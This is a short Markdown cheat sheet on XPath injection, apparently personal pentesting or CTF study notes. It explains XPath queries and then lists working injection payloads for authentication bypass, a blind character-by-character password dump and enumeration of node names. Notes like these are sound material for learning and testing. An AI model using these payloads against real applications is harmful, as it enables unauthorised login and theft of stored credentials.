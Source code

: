 ```yaml
---
title:  "XPath injections"
---
```

# Introduction
* XPath: XML Path Language. Interpreted language to navigate XML documents.
  XPath expression: sequence of steps required to navigate from one node to another
* XML files used to store applications configuration, and sometimes credentials, roles and privileges
* Single quotes not needed for numeric values
* Keywords and tag names in XML documents are case-sensitive
* Strategy: when regular SQL injections fail, it might be an XPath injection

# Example of queries
* Retrieve all email addresses: `//address/email/text()`
* Retrieve all information under `address` for the user Dawes: `//address[surname/text()='Dawes']`
* Credential verification: `//address[surname/text()='$user' and password/text()='$pass']`
* Access 2nd node of the first user: `//user[position()=1]/child::node()[position()=2]/text()`
* Count the number of nodes of all users: `count(//user/child::node())`
* Length of string: `stringlength(//address/email/text())`
* Substring extraction: `substring(//user/name/text(), start, n_char)`


# Injections
* Testing: `'`, `' or 'a'='a`
* `//address[surname/text()]='Dawes' and password/text()='' or 'a'='a']/ccard/text()`
* Password dump: `' or //address[surname/text()='Dave' and substring(password/text(), 1, 1)= 'A'] and 'a'='a` return results if the first letter or the password is 'A'
* For strings:
  * `' or count(parent::*[position()=1])=0 or 'a'='b`
  * `' or count(parent::*[position()=1])>0 or 'a'='b`
* If numeric:
  * `1 or count(parent::*[position()=1])=0`
  * `1 or count(parent::*[position()=1])>0`
* Current's node parent name:
```
' or substring(name(parent::*[position()=1]), 1, 1) = 'a
' or substring(name(parent::*[position()=1]), 1, 1) = 'b
' or substring(name(parent::*[position()=1]), 2, 1) = 'a
' or substring(name(parent::*[position()=1]), 2, 1) = 'b
' or substring(name(parent::*[position()=1]), 2, 1) = 'c
```
* `substring(//parentnodename[position()=1]/child::node()[position()=1]/text(), 1, 1)='a'`



# Resources
* XPath injection - authentication Root-me solutions
* XPath memo: EN - Introduction to Xpath injection techniques.pdf
* [Xcat tool](https://github.com/orf/xcat)
